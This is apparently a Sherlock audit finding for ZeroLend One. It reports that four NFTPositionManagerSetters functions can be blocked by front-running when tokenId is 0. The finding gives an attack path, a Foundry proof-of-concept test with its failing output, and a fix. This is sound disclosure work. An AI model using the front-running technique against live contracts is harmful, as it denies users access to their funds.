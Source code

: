 Kind Admiral Mongoose

Medium

# _supply, _borrow, _withdraw, and _repay in NFTPositionManagerSetters can be subject to a DoS attack when the tokenId input is 0

### Summary

When users supply, borrow, withdraw, or repay, the internal functions check whether the users' tokenId input is 0. If the tokenId is 0, it verifies if the msg.sender is the owner of _nextId - 1; otherwise, it reverts. However, anyone can create a tokenId using NFTPositionManager.sol:mint, allowing malicious actors to front-run the transaction and cause a DoS attack on users.

### Root Cause

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTPositionManagerSetters.sol#L46-L47

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTPositionManagerSetters.sol#L66-L67

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTPositionManagerSetters.sol#L87-L88

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTPositionManagerSetters.sol#L107-L108

There is a check to see if the input tokenId is 0. If it is, it verifies whether the msg.sender is the owner of _nextId - 1; otherwise, it reverts.

### Internal pre-conditions

/

### External pre-conditions

/

### Attack Path

1. Alice mints a token, which receives a tokenId equal to _nextId.
2. She then intends to call supply without specifying params.tokenId, expecting to supply to her most recent tokenId.
3. However, Bob front-runs Alice by minting another token just before Alice's supply transaction is mined.
4. As a result, _nextId - 1 now corresponds to Bob's token, not Alice's. When Alice's supply call is processed, the check determines that Alice is not the owner of _nextId - 1 (which is now Bob's token), and the transaction reverts (NFTErrorsLib.NotTokenIdOwner()).

### Impact

DoS: Users' intended transactions are blocked, which can prevent them from supply, borrow, withdraw and repay tokens

### PoC

```solidity
  function test_supplyDoS() external {
    tokenA.mint(alice, 10 ether);

    //Alice mints a new position
    vm.prank(alice);
    uint256 aliceTokenId = nftPositionManager.mint(address(pool));
    console.log("aliceTokenId:", aliceTokenId);

    // Bob is the attacker mints a new token to front-run the observed transaction
    vm.prank(bob);
    uint256 attackerTokenId = nftPositionManager.mint(address(pool));
    console.log("attackerTokenId:", attackerTokenId);

    //Alice supplies liquidity
    DataTypes.ExtraData memory data = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params =
      INFTPositionManager.AssetOperationParams(address(tokenA), alice, 10 ether, 0, data);

    vm.startPrank(alice);
    tokenA.approve(address(nftPositionManager), 10 ether);
    nftPositionManager.supply(params);
  }
```

```solidity
Result:
[FAIL. Reason: NotTokenIdOwner()] test_supplyDoS() (gas: 437207)
Logs:
  aliceTokenId: 1
  attackerTokenId: 2
```

### Mitigation

Should check that the tokenId input is not equal to 0 and that the msg.sender is the owner of the tokenId

```solidity
  function _supply(AssetOperationParams memory params) internal nonReentrant {
    if (params.amount == 0) revert NFTErrorsLib.ZeroValueNotAllowed();
-    if (params.tokenId == 0) {
-      if (msg.sender != _ownerOf(_nextId - 1)) revert NFTErrorsLib.NotTokenIdOwner();
-      params.tokenId = _nextId - 1;
+  if (params.tokenId == 0) revert NFTErrorsLib.ZeroTokenIdNotAllowed();
+  if (msg.sender != _ownerOf(params.tokenId)) revert NFTErrorsLib.NotTokenIdOwner();
    }
```